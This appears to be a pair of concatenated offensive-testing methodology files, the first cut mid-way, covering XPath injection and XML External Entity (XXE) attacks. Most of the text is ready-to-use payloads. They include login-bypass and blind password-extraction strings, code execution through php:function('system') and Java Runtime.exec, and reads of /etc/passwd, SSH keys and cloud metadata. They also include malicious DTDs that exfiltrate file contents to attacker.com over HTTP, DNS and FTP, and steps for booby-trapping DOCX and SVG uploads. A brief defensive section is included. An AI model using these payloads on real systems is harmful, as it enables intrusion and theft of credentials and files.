' or '1'='1' ] | //node[ '   (Union attempt)
```

---

### 2.1 Authentication Bypass (Boolean Logic Manipulation)

Manipulate the predicate filter to evaluate to true regardless of actual credentials.

**Standard Login Query Structure:**
```xpath
//users/user[username='INPUT_USER' and password='INPUT_PASS']
```

**Bypass Payloads:**

| Scenario | Payload (Username) | Payload (Password) | Resulting XPath |
|----------|-------------------|-------------------|-----------------|
| Single quote string | `admin' or '1'='1` | anything | `//user[username='admin' or '1'='1' and password='anything']` |
| Comment simulation via closure | `admin' or '1'='1' ] | `anything` | `//user[username='admin' or '1'='1']` |
| True condition injection | `' or '1'='1` | `' or '1'='1` | Both predicates true |
| Numeric bypass | `1 or 1=1` | `1 or 1=1` | Numeric evaluation true |
| `true()` function | `' or true() or '` | `' or true() or '` | Boolean true |
| `position()` manipulation | `'] | //user[1] | //user['` | `'] | //user[1] | //user['` | Returns first user node |

**Optimized Authentication Bypass (Single Payload):**
```
' or true() or '
' or 1=1 or '
' or 'a'='a
' or string(.)='' or '
' or position()=1 or '
' or count(ancestor::*)>=0 or '
```

**Advanced: Bypass with Node Existence Check**
```
' or //admin or '
' or //user[1] or '
' or //*[1] or '
```

### 2.2 Authorization Bypass

Bypass row-level access controls by expanding the node selection scope.

**Original Query:**
```xpath
//data/record[owner='current_user' and id='INPUT_ID']
```

**Bypass:**
```
1' or '1'='1' or '//record[public='true' or '1'='1
1' or owner!='nonexistent' or '
1' or not(owner='restricted') or '
```

### 2.3 Parent/Child Traversal for Access Control Bypass

Escape the intended node context to access parent or sibling nodes.

**Payloads:**
```
' or parent::* or '
' or ancestor::* or '
' or ancestor-or-self::* or '
' or preceding-sibling::* or '
' or following-sibling::* or '
```

---

### 3.1 Union-Based Data Extraction (`|`)

The union operator `|` concatenates node-sets. If the application displays the first text node of the result, unions can append sensitive nodes to the query output.

**Query Structure Assumption:**
```xpath
//catalog/book[title='INPUT']/title
```

**Extraction Payloads:**

| Goal | Payload | Extracted Data |
|------|---------|---------------|
| Extract all passwords | `'] | //password | //foo['` | All `<password>` node text values |
| Extract all usernames | `'] | //username | //foo['` | All `<username>` node text values |
| Extract root children | `'] | /*/* | //foo['` | All direct children of root |
| Extract all text | `'] | //text() | //foo['` | All text nodes in document |
| Extract attributes | `'] | //@* | //foo['` | All attribute values |
| Extract specific attribute | `'] | //user/@password | //foo['` | Password attribute values |
| Extract comment nodes | `'] | //comment() | //foo['` | XML comments (often contain credentials) |

**Optimized Union Extraction (Generic Template):**
```
'] | //*[local-name()='password'] | //*[local-name()='passwd'] | //*[local-name()='pwd'] | //foo['
'] | //*[contains(local-name(), 'pass')] | //foo['
'] | //*[contains(local-name(), 'cred')] | //foo['
'] | //*[contains(local-name(), 'secret')] | //foo['
'] | //*[contains(local-name(), 'key')] | //foo['
'] | //comment() | //foo['
'] | //processing-instruction() | //foo['
```

### 3.2 Context-Aware Union Injection

Adapt the union payload based on the injection point within the XPath expression.

**Injection in Predicate:**
```xpath
//users/user[username='INPUT' and active='1']
```
Payload: `'] | //password | //user[username='dummy`

**Injection in Node Test:**
```xpath
//users/user[username='INPUT']
```
Payload: `'] | //password | //users/user[username='dummy`

**Injection in Function Argument:**
```xpath
substring(//user[username='INPUT']/bio, 1, 100)
```
Payload: `'], 1, 100) | //password | //user[username='dummy`

### 3.3 Multi-Node Enumeration via Union

Systematically enumerate document structure using union with position indexing.

```
'] | //*[position()=1] | //foo['
'] | //*[position()=2] | //foo['
'] | //*[position()=3] | //foo['
'] | //*[$i] | //foo['   (Iterate $i)
```

---

## Phase 4: Blind Extraction (Substring Functions)

When union injection fails or the application returns boolean/numeric responses only, use blind extraction with substring functions to steal data character-by-character.

### 4.1 Boolean-Based Blind Extraction

**Methodology:** Ask true/false questions about each character's ASCII value.

**Core Functions:**
- `substring(string, start, length)` — Extract substring
- `string-length(string)` — Determine string length
- `string(node)` — Convert node to string
- `codepoints-to-string()` / `string-to-codepoints()` (XPath 2.0+)
- `translate()` — Character mapping/filtering

**Query Template:**
```xpath
//users/user[username='INPUT' and substring(password,1,1)='a']/username
```

**Optimized Binary Search Payloads (Minimize Requests):**

| Technique | Payload | Logic |
|-----------|---------|-------|
| Character equality | `'] and substring(//user[1]/password,1,1)='a' or '//user[username='` | True if 1st char is 'a' |
| ASCII comparison | `'] and ascii(substring(//user[1]/password,1,1))>100 or '//user[username='` | Binary search range |
| String-length check | `'] and string-length(//user[1]/password)=8 or '//user[username='` | Determine length first |
| Substring match | `'] and starts-with(//user[1]/password,'adm') or '//user[username='` | Prefix enumeration |

**Full Character Set Iteration (Optimized Order):**
Test characters in frequency order: `e, t, a, o, i, n, s, r, h, l, d, c, u, m, f, p, g, w, y, b, v, k, x, j, q, z, 0-9, _, -, @, .`

**Binary Search ASCII Extraction (XPath 2.0+ with `codepoint-equal`):**
```
'] and string-to-codepoints(substring(//password,1,1))>64 or '//
'] and string-to-codepoints(substring(//password,1,1))>96 or '//
'] and string-to-codepoints(substring(//password,1,1))>112 or '//
'] and string-to-codepoints(substring(//password,1,1))=112 or '//
```

**XPath 1.0 Compatible (No `ascii()` function):**
```
'] and substring(//password,1,1)>'a' or '//
'] and substring(//password,1,1)>'n' or '//
'] and substring(//password,1,1)='s' or '//
```

### 4.2 Error-Based Blind Extraction

Force XPath processing errors that leak information through error messages.

**Integer Overflow / Type Coercion:**
```
' and string-length(//password)>0 and '1' + //password + '1
```
If `//password` contains non-numeric text, some engines throw type conversion errors revealing the value.

**Invalid Node Construction:**
```
' and //password and '1
```
Some implementations concatenate or stringify nodes in error contexts.

**Optimized Error Payloads:**
```
' + //user[1]/password + '
' - //user[1]/password - '
' * //user[1]/password * '
' div //user[1]/password div '
```

### 4.3 Time-Based Blind Extraction

When boolean and error channels are unavailable, induce delays via heavy computation (implementation-dependent).

**XPath 1.0 (Limited native support):**
Most XPath 1.0 engines don't support sleep functions. Rely on:
- Extremely large node-set operations
- Deep recursive axes
- Heavy string manipulation

**XPath 2.0+ Time Functions (if available):**
```
' and (if (substring(//password,1,1)='a') then current-dateTime() else current-dateTime()) or '
```
(Note: Pure XPath rarely supports direct time delays; this is more applicable in XQuery contexts.)

**Alternative: Heavy Computation Delay**
```
' and count(//node()//node()//node()//node())>0 or '
' and string-length(normalize-space(//.))>0 or '
```

---

### 5.1 Node Count Enumeration

Determine the size of the XML document and specific node collections to scope the attack surface.

**Count Functions:**
- `count(node-set)` — Number of nodes in set
- `last()` — Position of last node in current context
- `position()` — Current node position

**Enumeration Payloads:**

| Target | Payload | Reveals |
|--------|---------|---------|
| Total elements | `'] and count(//*)=50 or '//user[username='` | Total element nodes |
| Children of root | `'] and count(/*/*)=5 or '//user[username='` | Root's direct children |
| Specific node type | `'] and count(//user)=10 or '//user[username='` | Number of users |
| Text nodes | `'] and count(//text())>100 or '//user[username='` | Text node count |
| Attribute nodes | `'] and count(//@*)>50 or '//user[username='` | Attribute count |
| Comments | `'] and count(//comment())>0 or '//user[username='` | Presence of comments |
| Processing instructions | `'] and count(//processing-instruction())>0 or '//user[username='` | PI count |

**Binary Search Optimization for Count:**
```
'] and count(//*)>1000 or '//
'] and count(//*)>500 or '//
'] and count(//*)>750 or '//
'] and count(//*)>625 or '//
```
(Converge on exact count in ~log2(N) requests)

### 5.2 Document Depth Enumeration

Determine XML tree depth for structural mapping.

```
'] and count(ancestor::*)=0 or '//   (Root level)
'] and count(ancestor::*)=1 or '//
'] and count(ancestor::*)=2 or '//
'] and count(//descendant::*)>50 or '//
```

### 5.3 String Length Enumeration

Before blind character extraction, determine the length of target strings to optimize extraction loops.

```
'] and string-length(//user[1]/password)=8 or '//
'] and string-length(//user[1]/password)>4 or '//
'] and string-length(string(//user[1]))>100 or '//
'] and string-length(normalize-space(//user[1]/bio))>50 or '//
```

**Length Binary Search:**
```
'] and string-length(//password)>32 or '//
'] and string-length(//password)>16 or '//
'] and string-length(//password)>24 or '//
'] and string-length(//password)>20 or '//
'] and string-length(//password)>22 or '//
'] and string-length(//password)=23 or '//
```

---

### 6.1 Node Name Enumeration

Extract element and attribute names when the schema is unknown.

**Local Name Extraction (Character by Character):**
```
'] and substring(local-name(/*),1,1)='r' or '//
'] and substring(local-name(/*),1,1)='r' and substring(local-name(/*),2,1)='o' or '//
'] and substring(local-name(/*),1,2)='ro' or '//
```

**Namespace URI Extraction:**
```
'] and substring(namespace-uri(/*),1,1)='h' or '//
'] and contains(namespace-uri(/*),'http') or '//
```

### 6.2 Attribute Enumeration

Discover and extract attributes even when element names are known.

**Discover Attributes of a Node:**
```
'] and count(//user[1]/@*)>3 or '//
'] and string-length(name(//user[1]/@*[1]))>4 or '//
'] and substring(name(//user[1]/@*[1]),1,1)='i' or '//
```

**Extract Attribute Values:**
```
'] and //user[1]/@password or '//
'] and string(//user[1]/@password) or '//
'] and substring(//user[1]/@password,1,1)='a' or '//
```

### 6.3 Conditional Logic (XPath 2.0+ / XQuery)

If the backend supports XPath 2.0 or XQuery, more powerful constructs are available.

**If-Then-Else:**
```
'] and (if (substring(//password,1,1)='a') then true() else false()) or '//
```

**Regular Expressions (matches()):**
```
'] and matches(//password,'^admin') or '//
'] and matches(string(//user[1]),'password|secret|key') or '//
```

**Ordered Node Access:**
```
'] and //user[1] is //user[last()] or '//
'] and //user[2] >> //user[1] or '//
```

### 6.4 XML External Entity (XXE) via XPath Context

Some XPath evaluators are vulnerable to XXE when parsing the XML document itself.

**Indicator:** If the application loads XML files based on user input or evaluates XPath against user-supplied XML.

**XXE via XPath Document Function:**
```
' and doc('file:///etc/passwd') or '
' and doc('http://attacker.com/exfil') or '
' and unparsed-text('file:///etc/passwd') or '
```

**Note:** This crosses into XXE territory but is relevant when XPath injection exists in document-loading contexts.

### 6.5 XPath to Code Execution (Rare Contexts)

In certain environments (PHP with `libxml2`, Java Xalan, .NET XslCompiledTransform), XPath extensions can lead to code execution.

**PHP `php:function()`:**
```
' and php:function('system','id') or '
' and php:function('file_get_contents','/etc/passwd') or '
```

**Java `java.lang.Runtime`:**
```
' and java:java.lang.Runtime.getRuntime().exec('calc.exe') or '
```

**.NET `msxsl:script`:**
```
' and msxsl:script('C#', 'System.Diagnostics.Process.Start("calc")') or '
```

---

### 7.1 Encoding Obfuscation

**URL Encoding:**
```
%27%20%6f%72%20%27%31%27%3d%27%31
```

**Double URL Encoding:**
```
%2527%2520%256f%2572%2520%2527%2531%2527%253d%2527%2531
```

**Unicode Normalization:**
```
%EF%BC%87 (Fullwidth quote ＇)
%u0027 (Unicode escape)
```

**HTML Entities:**
```
&apos; or &apos;1&apos;=&apos;1
&#39; or &#39;1&#39;=&#39;1
&#x27; or &#x27;1&#x27;=&#x27;1
```

### 7.2 Case Variation & Whitespace

XPath is case-sensitive for node names but functions can sometimes tolerate creative spacing.

```
'OR'1'='1
'  or  '1'='1
'	or	'1'='1
'/**/or/**/'1'='1
```

### 7.3 Alternative Operators & Functions

**Replace `or` / `and`:**
```
' | //* | '          (Union instead of OR in node-set contexts)
' + //* + '          (Numeric coercion)
' = //* = '          (Equality chains)
```

**Replace `substring()`:**
```
substring-before(//password,'a')
substring-after(//password,'a')
```

**Replace `=`:**
```
' and contains(//password,'a') or '
' and starts-with(//password,'adm') or '
' and not(//password!='admin') or '
```

### 7.4 Comment Injection (XQuery Style)

If the parser supports XQuery:
```
(: comment :)
' or 1=1 (: inject :)
```

### 7.5 Logical Equivalents

```
' and true() and '
' and false() and '
' and 0=0 and '
' and 1>0 and '
' and string-length('x')=1 and '
' and count(//*)>0 and '
' and local-name(/*)=local-name(/*) and '
```

### 7.6 Filter Evasion for Specific Characters

If `(` or `)` is blocked:
```
' or '1'='1' ]       (Avoids parentheses)
' or true() = ' or '1'='1   (Use = instead of AND/OR grouping)
```

If `//` is blocked (axis traversal):
```
' or descendant::* or '
' or /child::node()/child::* or '
```

If `*` is blocked:
```
' or node() or '
' or //text() or '
' or //element() or '   (XPath 2.0)
```

---

### 8.1 Manual Testing Checklist

For each parameter identified as potentially XPath-backed:

1. **Fuzz with syntax breakers** (`'`, `"`, `]`, `)`, `|`, `//`)
2. **Confirm injection** with true/false differential responses
3. **Fingerprint XPath** using `count(/)`, `local-name()`, `name()`
4. **Attempt union extraction** with `| //node | //foo`
5. **If union fails, switch to blind** with `substring()` binary search
6. **Enumerate counts** first (`count()`, `string-length()`)
7. **Map document structure** (node names, attributes, depth)
8. **Extract high-value targets** (passwords, keys, tokens, PII)
9. **Test for XXE/code execution** if environment permits
10. **Document evidence** with request/response pairs

### 8.2 Automation Script Logic (Python Pseudocode)

```python
def blind_extract(payload_template, target_node, max_length=50):
    result = ""
    for pos in range(1, max_length + 1):
        # Determine length first
        low, high = 32, 126
        while low <= high:
            mid = (low + high) // 2
            payload = payload_template.format(
                target=target_node, pos=pos, char=mid
            )
            if execute(payload):  # True response
                low = mid + 1
                found = mid
            else:
                high = mid - 1
        if found == 32:  # No printable char found
            break
        result += chr(found)
    return result

### 8.3 Recommended Tools

| Tool | Purpose | Notes |
|------|---------|-------|
| **Burp Suite** | Proxy, Repeater, Intruder | Essential for manual differential analysis |
| **SQLMap** | `--technique=X` | Limited XPath support; useful for boolean/union patterns |
| **XCat** | Dedicated XPath extraction | Python tool for blind XPath injection |
| **Custom Python scripts** | Blind extraction automation | Required for complex binary search |
| **Burp BApp: HackBar** | Quick payload injection | Useful for encoding/transforms |
| **Postman / curl** | SOAP/XML endpoint testing | For API-based XPath contexts |

---

### 9.1 Secure Coding Patterns

**Parameterized XPath (Java):**
```java
XPath xpath = XPathFactory.newInstance().newXPath();
XPathExpression expr = xpath.compile("//users/user[username=$user and password=$pass]");
expr.evaluate(doc, new Object[]{sanitizedUser, sanitizedPass});
```

**Parameterized XPath (.NET):**
```csharp
XPathExpression expr = nav.Compile("//users/user[username=$user and password=$pass]");
XPathNodeIterator nodes = nav.Select(expr);
```

**Input Validation (Whitelist):**
- Allow only alphanumeric characters for usernames
- Reject `|`, `'`, `"`, `[`, `]`, `(`, `)`, `/`, `@`, `*`, `=`, `<`, `>`

**Alternative: Use DOM APIs instead of XPath for simple lookups.**

### 9.2 Verification Steps for Fix Validation

1. **Resubmit all attack payloads** — Confirm no error leakage, no data extraction
2. **Test true/false differential** — `or 1=1` should not change result semantics
3. **Test union injection** — `| //password` should not append data
4. **Test blind extraction** — `substring()` in predicate should be rejected or neutered
5. **Verify error handling** — Generic errors only, no XPath stack traces
6. **Check logging** — Ensure injection attempts are logged for monitoring

### 9.3 Defense-in-Depth

- **Least Privilege XML:** Application should only access necessary XML documents
- **Web Application Firewall:** Deploy rules for `|`, `//`, `substring`, `count` in user input
- **Output Encoding:** Never reflect XPath results directly without encoding
- **Error Handling:** Catch `XPathException` and return generic messages

---

## Quick Reference: Optimized Payload Matrix

| Objective | Payload | Context |
|-----------|---------|---------|
| **Detect** | `'` | Any string parameter |
| **Confirm** | `' or '1'='1` vs `' and '1'='2` | Boolean logic context |
| **Bypass Auth** | `' or true() or '` | Login forms |
| **Extract via Union** | `'] \| //password \| //foo['` | Display/echo context |
| **Blind Char Extraction** | `'] and substring(//pwd,1,1)='a' or '//` | Boolean blind |
| **Count Nodes** | `'] and count(//*)>50 or '//` | Enumeration |
| **String Length** | `'] and string-length(//pwd)=8 or '//` | Pre-extraction sizing |
| **Node Name** | `'] and substring(local-name(/*),1,1)='r' or '//` | Schema discovery |
| **Attribute Value** | `'] and substring(//@password,1,1)='a' or '//` | Attribute extraction |
| **WAF Bypass** | `%27%20or%20%27%31%27%3d%27%31` | Filtered environments |

---

## Testing Notes

- **Always start with error-based detection** — It provides the fastest confirmation and reveals query structure through error messages.
- **Union extraction is exponentially faster than blind** — Attempt union before committing to character-by-character blind extraction.
- **Enumerate counts and lengths before blind extraction** — Knowing the target size prevents infinite loops and optimizes request volume.
- **Test both GET and POST parameters** — XPath injection commonly exists in SOAP bodies, XML-RPC, REST API JSON-to-XML conversions, and search parameters.
- **Check HTTP headers** — `X-Requested-With`, custom headers, and cookies may feed into XPath queries.
- **Document the original query structure** if inferable — Understanding whether the injection is in a predicate, node test, or function argument determines payload construction.
- **Be aware of XPath version** — XPath 1.0 is far more common in legacy apps; XPath 2.0+ enables `matches()`, `if-then-else`, and richer string functions.


## SOURCE: normal-skills/xxe.md

name: xxe-injection
description: Comprehensive XXE (XML External Entity) injection testing methodology covering basic file disclosure, blind out-of-band exfiltration, XInclude attacks, SSRF chaining, parser-specific bypasses, and advanced entity manipulation with optimized payloads and detection techniques.
version: 1.0.0
---

## Overview

XML External Entity (XXE) Injection is an attack against applications that parse XML input. When an XML parser processes a document containing a reference to an external entity, the parser may dereference that entity and expose internal files, perform SSRF, or execute remote requests. The vulnerability stems from allowing the XML parser to process external entity declarations (DTD processing) without proper restriction.

**Core XML Concepts:**
- **DTD (Document Type Definition):** Defines the structure and legal elements/attributes of an XML document
- **ENTITY:** A placeholder for content; can reference internal strings or external resources
- **Parameter Entity:** Special entity type (`%name;`) used only within DTDs, critical for blind XXE
- **General Entity:** Standard entity (`&name;`) used in document body
- **XInclude:** XML Inclusions specification allowing inclusion of external documents independent of DTD processing

**Key RFCs & Specifications:** XML 1.0 (Fifth Edition), XML Inclusions (XInclude) 1.0, RFC 7303 (XML Media Types)

---

### 1.1 Initial Vector Identification
Identify all XML ingestion points in the application:
- **Direct XML APIs:** SOAP endpoints, REST APIs accepting `application/xml` or `text/xml`, XML-RPC
- **File Uploads:** SVG images, Office documents (DOCX/XLSX/PPTX), PDF generators, image metadata parsers
- **Indirect XML Processing:** RSS/Atom feed readers, SAML authentication, configuration imports, data transformation pipelines
- **Content-Type Switching:** Endpoints accepting JSON that may parse XML if Content-Type is changed to `application/xml`
- **XMPP/WebSocket:** Messaging protocols built on XML streams

### 1.2 Parser Behavior Fingerprinting
Determine the backend parser to tailor exploitation:

**Fingerprinting Payloads:**
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
  <!ENTITY xxe "internal">
]>
<test>&xxe;</test>
```
- If response contains `internal`, parser resolves general entities (internal)

**Protocol Support Testing:**
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://YOUR-COLLABORATOR/">
]>
<test>&xxe;</test>
```
- DNS lookup = external entity resolution enabled
- HTTP request = full SSRF capability confirmed

**Parser-Specific Signatures:**
- **Java/Xerces:** `jar://`, `http://`, `file://`, `ftp://` supported; error messages often contain `com.sun.org.apache.xerces`
- **PHP/libxml2:** `file://`, `http://`, `ftp://`, `php://` supported; `libxml_disable_entity_loader()` may be present
- **.NET:** `System.Xml.XmlReader` with `DtdProcessing.Prohibit` vs `Parse`; `XmlDocument` vulnerable by default in older .NET Framework versions
- **Python/lxml:** `lxml.etree.parse()` with `resolve_entities=True` (default in older versions)
- **Ruby/Rexml:** Limited external entity support; Nokogiri uses libxml2

### 1.3 Error-Based Detection
Force parser errors to confirm XML processing and reveal paths:
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///nonexistent/">
]>
<test>&xxe;</test>
```
- File not found errors confirm `file://` access and parser type
- Java often throws `java.io.FileNotFoundException` with full path

---

### 2.1 File Disclosure
Read local files directly into the XML document response.

**Linux Targets:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

**High-Value Linux Files:**
- `/etc/passwd` (user enumeration)
- `/etc/shadow` (rarely readable, test anyway)
- `/etc/hostname`, `/etc/hosts` (network reconnaissance)
- `/proc/self/environ` (environment variables, may contain credentials)
- `/proc/self/cmdline` (process arguments)
- `/proc/self/fd/0` through `/proc/self/fd/9` (file descriptors, may expose request body)
- `/proc/self/cwd/application.properties`, `/proc/self/cwd/config.xml` (application configs)
- `/var/log/apache2/access.log`, `/var/log/nginx/access.log` (log poisoning vectors)
- `/home/user/.ssh/id_rsa`, `/root/.ssh/id_rsa` (SSH keys)
- `/opt/tomcat/webapps/ROOT/WEB-INF/web.xml` (Java config)
- `/usr/share/tomcat8/conf/tomcat-users.xml` (Tomcat credentials)

**Windows Targets:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///C:/windows/win.ini">
]>
<foo>&xxe;</foo>
```

**High-Value Windows Files:**
- `file:///C:/windows/win.ini`
- `file:///C:/windows/system32/drivers/etc/hosts`
- `file:///C:/inetpub/wwwroot/web.config` (IIS/ASP.NET config)
- `file:///C:/ProgramData/Oracle/Java/javapath/java.exe` (path validation)
- `file:///C:/Users/Administrator/ntuser.dat`
- `file:///C:/xampp/phpMyAdmin/config.inc.php` (XAMPP configs)

**PHP-Specific Wrappers:**
```xml
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
```
- Bypasses some character restrictions by base64-encoding output

**Java-Specific Wrappers:**
```xml
<!ENTITY xxe SYSTEM "netdoc:///etc/passwd">
```
- Older Java versions support `netdoc://` as alias for `file://`

### 2.2 SSRF via Entity Resolution
Use the parser as an SSRF proxy to scan internal networks.

**Basic Internal Scanning:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">  <!-- AWS IMDS -->
]>
<foo>&xxe;</foo>
```

**Cloud Metadata Endpoints:**
- **AWS:** `http://169.254.169.254/latest/meta-data/`, `http://169.254.169.254/latest/user-data/`, `http://169.254.169.254/latest/dynamic/instance-identity/document`
- **Azure:** `http://169.254.169.254/metadata/instance?api-version=2017-08-01` (requires header `Metadata: true`)
- **GCP:** `http://169.254.169.254/computeMetadata/v1/` (requires header `Metadata-Flavor: Google`)
- **Oracle Cloud:** `http://169.254.169.254/opc/v1/instance/`
- **DigitalOcean:** `http://169.254.169.254/metadata/v1.json`

**Internal Service Enumeration:**
```xml
<!ENTITY xxe SYSTEM "http://internal-api:8080/health">
<!ENTITY xxe SYSTEM "http://localhost:22/">  <!-- SSH banner grabbing -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:6379/">  <!-- Redis (may hang) -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:9200/">  <!-- Elasticsearch -->
<!ENTITY xxe SYSTEM "http://127.0.0.1:50070/">  <!-- Hadoop NameNode -->
```

### 2.3 Remote Code Execution Vectors

**PHP expect:// Wrapper:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "expect://id">
]>
<foo>&xxe;</foo>
```
- Requires PHP `expect` extension installed (rare in production but high impact)
- Chainable: `expect://curl%20http://attacker.com/$(id|base64)`

**Java jar:// Protocol:**
```xml
<!ENTITY xxe SYSTEM "jar:http://attacker.com/malicious.jar!/file.txt">
```
- Java attempts to download and process the JAR, may execute code in some deserialization contexts

**Java netdoc:// for Path Traversal:**
```xml
<!ENTITY xxe SYSTEM "netdoc:///etc/passwd">
```

**PHP php://input Wrapper (Write Contexts):**
If the XML is used to construct a file path or is written to a file:
```xml
<!ENTITY xxe SYSTEM "php://input">
```
- Rare in XXE contexts but possible in XML-to-file transformations

---

## Phase 3: Blind XXE & Out-of-Band Exfiltration

When the parser does not return entity content in the response, use out-of-band (OOB) techniques to exfiltrate data.

### 3.1 Parameter Entity Fundamentals
Parameter entities (`%name;`) are defined and used within the DTD. They are essential for blind XXE because:
- They can be used in `ENTITY` declarations where general entities cannot
- They enable recursive DTD loading from attacker-controlled servers

### 3.2 Out-of-Band Data Exfiltration

**Setup:** Host a malicious DTD on your server (`http://attacker.com/exfil.dtd`):

```xml
<!-- exfil.dtd -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfil;
```

**Injection Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker.com/exfil.dtd">
  %xxe;
]>
<foo></foo>
```

**Execution Flow:**
1. Target parser fetches `exfil.dtd` from attacker server
2. Parser defines `%file` as contents of `/etc/passwd`
3. `%eval` defines another parameter entity `%exfil` with URL containing file contents
4. `%exfil` triggers HTTP request to attacker server with file contents in query string

**URL Encoding Considerations:**
- If the file contains newlines or spaces, URL-encode the payload or use FTP instead of HTTP
- Some parsers strip newlines; use `php://filter/convert.base64-encode/resource=` to ensure safe transport

**Base64-Encoded Exfiltration (Recommended):**
```xml
<!-- exfil.dtd -->
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfil;
```

### 3.3 Error-Based Exfiltration
Force the parser to throw an error containing the target file contents.

**Malicious DTD:**
```xml
<!-- error.dtd -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

**Result:** Parser attempts to open path `/nonexistent/root:x:0:0...` and throws `FileNotFoundException` containing the file contents.

**Java-Specific Error Extraction:**
Java parsers often include the full path in `java.io.FileNotFoundException`, making this highly reliable.

### 3.4 DNS Exfiltration (For Restricted Environments)
When HTTP is blocked but DNS resolution is allowed:

```xml
<!-- dns.dtd -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://%file;.attacker.com/'>">
%eval;
%exfil;
```

**Limitations:** DNS labels max 63 characters, full domain max 253 characters. Use for small secrets (API keys, tokens) or chunk data via multiple requests.

**DNS Chunking Technique:**
For larger files, use multiple entities and Java substring methods (if XSLT/XPath available) or exfiltrate line-by-line.

### 3.5 FTP Exfiltration
Some parsers support FTP and handle binary/newline data better than HTTP:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'ftp://attacker.com:2121/%file;'>">
```

**Setup:** Run an FTP listener (e.g., `python -m pyftpdlib -p 2121`) to capture full file contents including newlines.

---

## Phase 4: XInclude & Alternative Vectors

When DTD processing is disabled but XInclude is supported, or when you cannot control the full XML document.

### 4.1 XInclude Attacks
XInclude is processed at a different layer than DTD entity expansion and may be enabled when DTDs are disabled.

**Basic XInclude Payload:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd"/>
</foo>
```

**XInclude with Text Parsing:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</foo>
```

**XInclude SSRF:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="http://internal-api:8080/admin"/>
</foo>
```

**XInclude with XPointer:**
```xml
<xi:include href="file:///etc/passwd" xpointer="xpointer(/passwd/user[1])"/>
```

**Context Requirements:**
- The XML element must allow child elements or the parser must accept arbitrary XInclude namespaces
- Common in document processing pipelines (DocBook, DITA, custom XML configs)

### 4.2 SVG Upload XXE
SVG files are XML documents. Upload points expecting images often use XML parsers.

**SVG XXE Payload:**
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg width="100px" height="100px" xmlns="http://www.w3.org/2000/svg">
  <text x="10" y="20">&xxe;</text>
</svg>
```

**Blind SVG XXE:**
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
  <!ENTITY % xxe SYSTEM "http://attacker.com/exfil.dtd">
  %xxe;
]>
<svg width="100px" height="100px" xmlns="http://www.w3.org/2000/svg">
  <text x="10" y="20">test</text>
</svg>
```

**SVG via XInclude:**
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd"/>
</svg>
```

### 4.3 Office Document XXE (DOCX/XLSX/PPTX)
Office Open XML formats are ZIP archives containing XML files. Inject XXE into `word/document.xml`, `xl/workbook.xml`, or `ppt/presentation.xml`.

**Methodology:**
1. Unzip the document: `unzip document.docx -d docx_extracted/`
2. Edit `word/document.xml` and add the XXE payload after the XML declaration
3. Re-zip ensuring directory structure is preserved: `cd docx_extracted && zip -r ../malicious.docx .`
4. Upload the document

**Payload in word/document.xml:**
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<w:document ...>
  <w:body>
    <w:p>
      <w:r>
        <w:t>&xxe;</w:t>
      </w:r>
    </w:p>
  </w:body>
</w:document>
```

**Blind Variant:**
Use parameter entities pointing to your DTD in `[Content_Types].xml` or `_rels/.rels` if the parser processes those.

### 4.4 PDF Generation XXE
Some PDF generators accept HTML/XML input (e.g., PDF converters, report generators).

**Common Vulnerable Scenarios:**
- HTML-to-PDF with `<?xml version="1.0"?>` processing
- XSL-FO to PDF pipelines
- ReportLab or similar libraries processing XML data sources

**Test Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<html>
  <body>
    <p>&xxe;</p>
  </body>
</html>
```

### 4.5 SOAP Web Services
SOAP envelopes are XML by definition and frequently vulnerable.

**SOAP Body Injection:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <foo>&xxe;</foo>
  </soap:Body>
</soap:Envelope>
```

**WSDL Parsing:**
If the application fetches and parses WSDL files:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<definitions ...>
  <documentation>&xxe;</documentation>
